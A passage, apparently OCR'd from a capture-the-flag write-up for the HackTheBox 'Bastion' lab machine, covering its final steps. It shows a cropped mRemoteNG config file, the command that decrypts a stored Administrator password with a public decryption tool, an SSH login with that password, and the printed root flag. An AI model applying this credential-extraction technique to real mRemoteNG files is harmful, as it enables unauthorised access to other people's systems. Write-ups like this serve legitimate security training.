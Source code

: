 	ssword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostna                                                                      
	me="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="                                                                      
	false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnab                                                                      
	leFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" I                                                                      
	nheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false"                                                                      
	 InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" Inhe                                                                      
	ritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleS                                                                      
	ession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="fa                                                                      
	lse" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoad                                                                      
	BalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" Inheri 
	
	
	For Decrypting I used a tool mremoteng_decrypt
	https://github.com/kmahyyg/mremoteng-decrypt
	   
	
16. root@kali:~/newgits/mRemoteNG-Decrypt# python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
	Password: thXLHM96BeKL0ER2
	 
17. root@kali:~/newgits/mRemoteNG-Decrypt# ssh Administrator@10.10.10.134
	Administrator@10.10.10.134's password: 
	Microsoft Windows [Version 10.0.14393]                                                                                          
	(c) 2016 Microsoft Corporation. All rights reserved.                                                                            
	
	administrator@BASTION C:\Users\Administrator>whoami                                                                             
	bastion\administrator                                                                                                           
	
	administrator@BASTION C:\Users\Administrator>cd Desktop                                                                         
	
	administrator@BASTION C:\Users\Administrator\Desktop>dir                                                                        
	 Volume in drive C has no label.                                                                                                
	 Volume Serial Number is 0CB3-C487                                                                                              
	
	 Directory of C:\Users\Administrator\Desktop                                                                                    
	
	23-02-2019  10:40    <DIR>          .                                                                                           
	23-02-2019  10:40    <DIR>          ..                                                                                          
	23-02-2019  10:07                32 root.txt                                                                                    
	               1 File(s)             32 bytes                                                                                   
	               2 Dir(s)  11.301.339.136 bytes free                                                                              
	
	administrator@BASTION C:\Users\Administrator\Desktop>type root.txt                                                              
        958850b91811676ed6620a9c430e65c8
